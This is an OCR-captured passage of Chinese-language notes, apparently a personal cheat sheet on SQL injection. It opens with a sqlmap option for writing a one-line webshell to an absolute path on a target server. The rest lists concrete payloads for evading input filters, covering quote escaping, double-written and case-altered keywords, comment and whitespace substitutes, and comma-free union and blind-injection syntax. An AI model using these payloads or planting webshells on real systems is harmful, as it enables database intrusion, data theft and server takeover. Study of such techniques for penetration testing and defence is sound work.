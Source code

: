     | --file-write "/localwebshell"     --file-dest "网站的绝对路径/1.php"。 | 创建webshell.txt，内容为一句话木马，之后需要两个参数即本地文件地址和目标文件地址,用户必须具有最高权限 |
    | **--roles**                                                  | **列出数据库管理员权限**                                     |

## 绕过简单过滤/转义

- sql中运算优先级and高于or和^	,所以`username=’admin’ and password=’’or 1=1`

- **在输入用户名那里输入关键字看哪些被过滤了**。如果被过滤字符串可以**双写绕过**。

- 过滤引号：
    - 利用name和passwd同时存在where中  账号输入 1\ 密码输入or 1=1 --+ 后拼接出来的语句是`select      from xxx where id='1\' and pw='or 1=1--+'  `这样引号就闭合了

- 过滤注释：
    - 当我们在用户名字前面输入%23 # --+而仍然是以该用户登陆，则过滤了# --+
    - 使用` ' or '1'='1 `或者and来闭合后面的引号,之后的注入，oder  by不能用，但是union select可以用。`id=-1' union     select 1,2,3 and '1'='1`
    - 使用除法 比如SQL语句`id='1'/1=(0)/'1'='1' ` 先算除法后等号，从左向右运算。‘1’被当成数字1。id=1/1=(0)/1=1。id=1=0=1。如果第一条数据id为1 则查询结果为0，进而查询第二条会返回1则会爆出数据，后续数据通过在等号之间搞个双注入爆出。


- **过滤了or和and：**

    - **可以用数学符号** **||和&&（要编码）**
    - 双写oorr     anandd绕过
    - **大小写变形：**如：Or、OR、oR等

    - url编码：%6fr  %6f就是o的url编码，%26（&的url编码）。
    - 添加注释` /**/： or/**/   select/**/ from/**/`

    - **过滤了or和and的盲注：**
    - **这样order by也不能用了，可以试试group by**

- **过滤关键字select from limit之类的：**


    - 最常用的绕过方法就是用`/**/，<>`，分割关键字：`sel<>ect        sel/**/ect`

- 双写过滤：selselectect
  - 大小写过滤：Select
  - 编码过滤：url编码绕过      16进制编码绕过 ASCII编码绕过

- **过滤了空格**：可以利用`/**/ /*1*/`当成空格

    - 双空格
    - 用括号绕过
    - 用回车代替 ,ascii码为chr(13)chr(10)，url编码为%0d%0a
    - **字节的伎俩看看能不能代替空格** **用其他字符绕过** **，用以下代替中间的空格** %09 TAB键（水平）%0a 新建一行%0c 新的一页%0d return功能%0b TAB键（垂直）%a0 空格

- 过滤逗号： select 1,2,3

    - 简单注入可以使用join方法绕过,union     select * from (select 1)a join (select 2)b join (select 3)

    - 对于盲注的那几个函数substr(),mid(),limit

    - substr和mid()可以使用from      for的方法解决

    - substr(str from pos      for len) //在str中从第pos位截取len长的字符
    - mid(str from pos      for len)//在str中从第pos位截取len长的字符
    - limit可以用offset的方法绕过:  limit 1 offset 1
    - 使用substring函数也可以绕过:  substring(str from pos)      //返回字符串str的第pos个字符，索引从1开始
